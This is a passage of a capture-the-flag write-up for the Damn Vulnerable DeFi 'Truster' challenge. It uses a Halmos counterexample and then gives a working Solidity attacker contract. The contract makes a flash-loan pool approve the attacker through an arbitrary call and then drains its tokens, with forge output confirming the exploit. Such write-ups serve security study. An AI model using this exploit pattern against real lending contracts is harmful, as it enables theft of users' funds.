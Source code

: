 ```javascript
halmos_selector_bytes4_478bb2d_44 = transferFrom
halmos_selector_bytes4_eaf3f0c_09 = flashLoan
halmos_target_address_331efb7_27 = 0x00000000000000000000000000000000aaaa0003
halmos_target_address_b0f3fc8_01 = 0x00000000000000000000000000000000aaaa0004
p_amount_uint256_0811e0c_13 = 0x0020000000000000000000000000000000000000000000000000000000000000
p_amount_uint256_20a8ea2_43 = 0x00000000000000000000000000000000000000000000d3c21bcecceda1000000
p_amount_uint256_540579e_04 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_borrower_address_726f579_05 = 0x00000000000000000000000000000000000000000000000000000000aaaa0004
p_data_length_1e22349_08 = 0x0000000000000000000000000000000000000000000000000000000000000400
p_from_address_b772801_41 = 0x00000000000000000000000000000000000000000000000000000000aaaa0004
p_spender_address_429fd9d_12 = 0x00000000000000000000000000000000000000000000000000000000aaaa0005
p_target_address_de4b479_06 = 0x00000000000000000000000000000000000000000000000000000000aaaa0003
p_to_address_50e8baf_42 = 0x00000000000000000000000000000000000000000000000000000000cafe0002 
```
Of course, we call `flashLoan` with the parameter `amount=0`, force the `pool` during flashLoan to call `approve()` of all tokens for attacker. And then we just make `transferFrom()` `pool` to `recovery` as the second transaction.
## Using a counterexample
We need these addresses in forge:
```javascript
$ forge test -vvv --mp test/truster/Truster.t.sol
...
Logs:
    token          0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b
    pool           0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264
    recovery       0x73030B99950fB19C6A813465E58A0BcA5487FBEa
...
```
Attacker:
```solidity
pragma solidity =0.8.25;

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {TrusterLenderPool} from "../../src/truster/TrusterLenderPool.sol";

contract Attacker {
    function attack() public {
        DamnValuableToken token = DamnValuableToken(address(0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b));
        TrusterLenderPool pool = TrusterLenderPool(address(0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264));
        address recovery = address(0x73030B99950fB19C6A813465E58A0BcA5487FBEa);
        pool.flashLoan(0, address(this), address(token), 
                            abi.encodeWithSignature("approve(address,uint256)", 
                            address(this), 
                            0x0020000000000000000000000000000000000000000000000000000000000000));
        token.transferFrom(address(pool), recovery, 0x00000000000000000000000000000000000000000000d3c21bcecceda1000000);
    }
} 
```
Run:
```javascript
$ forge test -vvv --mp test/truster/Truster.t.sol
...
Logs:
    token          0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b
    pool           0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264
    recovery       0x73030B99950fB19C6A813465E58A0BcA5487FBEa
...
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.24ms (386.40µs CPU time)
...
```